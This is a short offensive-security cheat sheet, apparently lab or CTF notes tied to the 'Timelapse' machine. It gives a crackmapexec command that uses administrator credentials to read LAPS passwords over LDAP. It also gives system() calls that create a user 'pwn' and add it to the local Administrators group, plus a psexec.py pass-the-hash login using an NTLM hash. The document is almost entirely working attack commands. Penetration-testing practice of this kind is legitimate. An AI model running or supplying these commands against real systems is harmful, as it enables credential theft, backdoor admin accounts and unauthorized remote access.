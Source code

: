 ## USER IN LAPS GROUP? (Check Timelapse machine from ippsec)

```
crackmapexec ldap 192.168.1.172 -u administrator -p ‘Ignite@123’ –kdcHost 192.168.1.172 -M laps
```
## MISC:
```
system('net user pwn pass123 /add');  
system('net localgroup Administrators pwn /add');  
psexec.py Administrator@10.3.3.14 -hashes :81705f25df71d547b2f658fbfd11885d
```
